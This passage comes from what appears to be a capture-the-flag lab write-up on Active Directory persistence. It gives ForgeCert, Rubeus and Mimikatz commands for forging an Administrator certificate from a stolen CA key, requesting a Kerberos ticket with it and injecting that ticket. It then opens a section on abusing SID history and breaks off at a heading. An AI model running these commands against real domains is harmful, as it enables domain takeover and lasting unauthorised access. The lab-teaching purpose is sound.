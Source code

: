 	* Generating our own certificate
	
		```
		C:\Tools\ForgeCert\ForgeCert\ForgeCert.exe --CaCertPath local_machine_My_1_za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
 		```

 		![task4-forgecert](./images/task4-forgecert.png)

 	* Use Rubeus to request a TGT using the certificate to verify that the certificate is trusted
 	
 		```
 		C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Password123 /outfile:ticket.kirbi /domain:za.tryhackme.loc /dc:10.200.88.101
 		```

 	* Use Mimikatz to inject the ticket into our session
 	
 		```
 		kerberos::ptt ticket.kirbi
 		exit
 		```


## Task 5 - Persistence through SID History

The Security IDentifiers (SIDs) have been discussed before. But for a recap, SIDs are used to track the security principal and the account's access when connecting to resources. There is, however, an interesting attribute on accounts called the SID history.

The legitimate use case of SID history is to enable access for an account to effectively be cloned to another. This becomes useful when an organisation is busy performing an AD migration as it allows users to retain access to the original domain while they are being migrated to the new one. In the new domain, the user would have a new SID, but we can add the user's existing SID in the SID history, which will still allow them to access resources in the previous domain using their new account. While SID history is good for migrations, we, as attackers, can also abuse this feature for persistence.

### History Can Be Whatever We Want It To Be
